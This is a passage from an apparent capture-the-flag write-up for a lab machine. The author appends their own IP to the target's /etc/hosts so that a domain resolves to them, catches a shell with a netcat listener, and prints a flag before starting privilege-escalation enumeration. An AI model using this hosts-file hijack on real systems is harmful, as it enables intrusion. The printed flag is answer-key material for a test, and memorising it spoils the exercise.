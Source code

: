 I start `Netcat Listener` on the local machine and execute this command on the target machine to append a new IP address which is my own IP address and assign it to `redrules.thm`:

```tsx
blue@red:~$ echo "10.8.97.213 redrules.thm" | tee -a /etc/hosts
10.8.97.213 redrules.thm
blue@red:~$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 red
192.168.0.1 redrules.thm

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouter
10.8.97.213 redrules.thm
```

After a while, I got the connect shell to the target machine as user `red`

```tsx
red@red:~$ cat flag2
cat flag2
THM{Y0u_won't_mak3_IT_furTH3r_th@n_th1S}
```

# Privilege Escalation → Root

Despite of the `flag2`, let find out is there potential files or directories in the current directory:

```tsx
red@red:~$ ls -la                                                                                                   
ls -la                                                                                                              
total 36                                                                                                            
drwxr-xr-x 4 root red  4096 Aug 17  2022 .                                                                          
drwxr-xr-x 4 root root 4096 Aug 14  2022 ..                                                                         
lrwxrwxrwx 1 root root    9 Aug 14  2022 .bash_history -> /dev/null                                                 
-rw-r--r-- 1 red  red   220 Feb 25  2020 .bash_logout                                                               
-rw-r--r-- 1 red  red  3771 Feb 25  2020 .bashrc                                                                    
drwx------ 2 red  red  4096 Aug 14  2022 .cache                                                                     
-rw-r----- 1 root red    41 Aug 14  2022 flag2                                                                      
drwxr-x--- 2 red  red  4096 Aug 14  2022 .git                                                                       
-rw-r--r-- 1 red  red   807 Aug 14  2022 .profile                                                                   
-rw-rw-r-- 1 red  red    75 Aug 14  2022 .selected_editor                                                           
-rw------- 1 red  red     0 Aug 17  2022 .viminfo
```
